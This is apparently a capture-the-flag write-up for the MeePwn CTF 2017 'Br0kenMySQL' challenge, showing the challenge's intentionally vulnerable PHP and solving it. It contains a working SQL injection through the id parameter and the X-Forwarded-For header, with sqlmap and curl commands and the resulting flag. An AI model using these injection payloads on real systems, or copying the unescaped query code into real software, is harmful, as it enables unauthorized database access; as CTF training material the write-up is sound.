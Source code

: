 ```yaml
---
title: "MeePwn CTF 2017: Br0kenMySQL"
date: "2017-07-17"
author: Jorge
tags:
- hack 
- ctf
toc: true
summary: ""
---
```


**100 pts**

> [BabeTrick](http://139.59.239.133/?debug=%F0%9F%95%B5)

```php
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
<?php

if($_GET['debug']=='🕵') die(highlight_file(__FILE__));

require 'config.php';

$link = mysqli_connect('localhost', MYSQL_USER, MYSQL_PASSWORD);

if (!$link) {
    die('Could not connect: ' . mysql_error());
}

if (!mysqli_select_db($link,MYSQL_USER)) {
    die('Could not select database: ' . mysql_error());
}
    $id = $_GET['id'];
    if(preg_match('#sleep|benchmark|floor|rand|count#is',$id))
        die('Don\'t hurt me :-(');
    $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
    $row = mysqli_fetch_array($query);
    $username = $row['username'];

    if($username === 'guest'){

        $ip = @$_SERVER['HTTP_X_FORWARDED_FOR']!="" ? $_SERVER['HTTP_X_FORWARDED_FOR'] : $_SERVER['REMOTE_ADDR'];
        if(preg_match('#sleep|benchmark|floor|rand|count#is',$ip))
die('Don\'t hurt me :-(');
        var_dump($ip);
        if(!empty($ip))
            mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");

        $query = mysqli_query($link,"SELECT username FROM users WHERE id = ". $id);
        $row = mysqli_fetch_array($query);
        $username = $row['username'];
        if($username === 'admin'){
            echo "What ???????\nLogin as guest&admin at the same time ?\nSeems our code is broken, here is your bounty\n";
            die(FLAG);
        }
        echo "Nothing here";
    } else {
        echo "Hello ".$username;
    }
?>
</h1>
</pre>
```

## Reading the code

First of all, search the flag. We can get the flag only if you login as guest and admin at the same time.

```php
if($username === 'guest'){
    ...
    if($username === 'admin'){
        ...
        die(FLAG);
    }
    ...
}
```

There exist 2 parameters we could use: ***$_GET['id']*** ***@$_SERVER['HTTP_X_FORWARDED_FOR']***. The header is also a paramete we can set. After a few seconds of try and error we get the id of the user guest (2) and admin (1). The header is store in the table logs.

```php
mysqli_query($link,"INSERT INTO logs VALUES('{$ip}')");
```

## Testing our thoughts

In the table ***logs*** looks like there is a value named **ip** and we can confirm it with a simple sqlmap search. We test if we can hack the header as well.

```bash
$ sqlmap --dbms -u "http://139.59.239.133/?id=2 -T logs"
$ curl --header "X-Forwarded-For: 'we can hack it'" "http://139.59.239.133/?id=2"
```

## SQL injection

1. We need the username with id 2 ***(guest)***
2. We insert the variable "@$_SERVER['HTTP_X_FORWARDED_FOR']" in the table **logs**
3. We need the username with id 1 ***(admin)***

The full sql looks like this (with the ip as a random number):

```sql
SELECT username FROM users WHERE id = 2 or id=(SELECT 1 FROM logs WHERE ip=5641314)
```

## Our friend curl

As soon as the random number already exsists in the table **logs** the sql will return the first id, in this case ***admin (id=1)*** user. We need to be sure that **@$_SERVER['HTTP_X_FORWARDED_FOR']** is never used in the table. A random number will do the trick.

```bash
$ curl --header "X-Forwarded-For: 5641314" "http://139.59.239.133/?id=2%20or%20id=(SELECT%201%20FROM%20logs%20WHERE%20ip=5641314)"
```

### MeePwnCTF{_b4by_tr1ck_fixed}

```html
<title>Br0kenMySQL</title><h1><pre>
<p style='color:Red'>Br0kenMySQL</p>
string(8) "86574965"
What ???????
Login as guest&admin at the same time ?
Seems our code is broken, here is your bounty
MeePwnCTF{_b4by_tr1ck_fixed}
```